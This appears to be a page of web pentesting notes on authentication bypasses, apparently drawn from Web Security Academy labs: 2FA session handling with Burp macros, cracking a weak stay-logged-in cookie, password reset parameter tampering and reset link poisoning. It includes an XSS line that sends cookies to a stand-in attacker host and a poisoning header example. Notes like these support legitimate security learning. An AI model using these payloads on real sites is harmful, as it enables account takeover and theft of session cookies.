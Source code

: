 If the app is terminating the valid session cookie after a certain amount of incorrect 2FA code attempts, then you can use a Burp Macro to create a new session after every request that is sent through Burp's PRoxy, Repeater, Intruder, etc...
# Brute Force Protection Bypass - Stay-Logged-In

Use all the app's functionality that is available. If the app has a "Remember me" function after logging in, use it and identify how the app is implementing this feature. If the feature is insecure, you can exploit it to potentially log into the app as another user or enumerate valid accounts.

For example, after clicking on the "Remember me" functionality, the app sets a new cookie on the client. The cookie is generated by hashing the user's password with an insecure hashing algorithm with no salt and appending their username to it. If there are no brute force protections on the cookie, you can use the vector to brute force the creds of another user.

Use Intruder "Payload Processing" to transform the payload into the required format so the brute force works correectly.

Another example - if the app contains an XSS vulnerability, you can inject the payload to steal another user's cookie and crack the password offline too:

```javascript
<script>document.location='https://ATTACKER-SERVER.COM/'+document.cookie </script>
```
# Auth Bypass - Password Reset Broken Logic

Use all of the app's functionality related to authentication such as Forgot password, reset password, update password, etc.. Analyze the entire process and identify any interesting headers/parameters that are potentially being used to identify which user the requests are being initiated for. Change these values to another account and analyze how the app responds.

For example, when using the "Forgot Password" functionality, there is a body parameter called "username". It may be possible to update the password of any valid user on the app by simply changing the value of the parameter.
# Authentication Bypass - Password Reset Poisoning via Middleware

When using the "Forgot password" functionality, identify if it is possible to manipulate the domain used in the password reset link. You can use headers such as Host, X-Forwarded-For or X-Host to do this. If it is possible, you can steal another user's reset token to update their password.

For example, if you can manipulate the password reset link to be `https://attacker-server.com/reset?token=xxx`, when the user clicks on the link that they receive in their email,, the request will be sent to the attacker server and the query parameter will be logged. Now, you can use the password reset token in the correct app domain to reset the victim user's password.

As an example:

- X-Forwarded-Host: exploit-server.web-security-academy.net

# Verbose Messages / Brute Force - via Password Change

